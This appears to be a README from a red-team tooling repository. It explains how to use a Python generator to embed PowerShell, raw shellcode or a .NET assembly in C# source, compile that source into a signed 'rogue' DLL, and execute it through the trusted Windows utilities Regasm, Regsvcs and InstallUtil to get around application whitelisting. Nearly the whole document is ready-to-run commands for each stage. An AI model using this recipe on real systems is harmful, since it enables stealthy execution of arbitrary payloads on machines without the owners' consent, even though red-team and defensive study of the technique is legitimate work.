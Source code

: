 ## Rogue .NET Assembly for Regsvcs/Regasm/InstallUtil Code Execution

Follow below described steps to properly generate your source code and then compile it into a nice rogue .NET Assembly ready to be executed by:

- [Regasm](https://lolbas-project.github.io/lolbas/Binaries/Regasm/)
- [Regsvcs](https://lolbas-project.github.io/lolbas/Binaries/Regsvcs/)
- [InstallUtil](https://lolbas-project.github.io/lolbas/Binaries/Installutil/)

### Step 1: Generate key.snk file

```
powershell -file build.ps1
```

### Step 2: Generate source code file

Included in this directory script is a helper utility allowing one to quickly generate desired csharp source code file to be used for further `csc` compilation.

Usage:

```
python3 generateRogueDotNet.py --help

        :: Rogue .NET Source Code Generation Utility
        To be used during Red-Team assignments to launch Powershell/Shellcode payloads via Regsvcs/Regasm/InstallUtil.
        Mariusz Banach / mgeeky, <mb@binary-offensive.com>

usage: .\generateRogueDotNet.py [options] <inputFile>

positional arguments:
  inputFile   Input file to be embeded within C# code. May be either Powershell script, raw binary Shellcode or .NET Assembly (PE/EXE) file.

optional arguments:
  -h, --help  show this help message and exit
  -e, --exe   Specified input file is an Mono/.Net assembly PE/EXE. WARNING: Launching EXE is currently possible ONLY WITH MONO/.NET assembly EXE/DLL files, not an ordinary native PE/EXE!
  -r, --raw   Specified input file is a raw Shellcode to be injected in self process in a separate Thread.
```

Sample use case:

```
python3 generateRogueDotNet.py -r notepad64.bin > program.cs

        :: Rogue .NET Source Code Generation Utility
        To be used during Red-Team assignments to launch Powershell/Shellcode payloads via Regsvcs/Regasm/InstallUtil.
        Mariusz Banach / mgeeky, <mb@binary-offensive.com>

[?] File specified as raw Shellcode.

```


###  Step 3: Compilate library .NET Assembly

```
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /target:library /out:rogue.dll /keyfile:key.snk program.cs
```
 
If you passed Powershell code to be launched in a .NET Runspace, then an additional assembly will have to be used to compile resulting source code properly - meaning System.Management.Automation.dll (provided with this script). Then proper compilation command will be:

```
%WINDIR%\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.Management.Automation.dll /target:library /out:rogue.dll /keyfile:key.snk program.cs
```


### Step 4: Code execution via Regsvcs, Regasm or InstallUtil:

- x86:
```
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\regasm.exe rogue.dll
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U rogue.dll

%WINDIR%\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe rogue.dll
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe /U rogue.dll 

%WINDIR%\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /logfile= /logtoconsole=false /U rogue.dll
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /logtoconsole=false /U rogue.dll
```

- x64:
```
%WINDIR%\Microsoft.NET\Framework64\v4.0.30319\regasm.exe rogue.dll
%WINDIR%\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U rogue.dll

%WINDIR%\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe rogue.dll
%WINDIR%\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe /U rogue.dll 

%WINDIR%\Microsoft.NET\Framework64\v2.0.50727\InstallUtil.exe /logfile= /logtoconsole=false /U rogue.dll
%WINDIR%\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /logtoconsole=false /U rogue.dll
```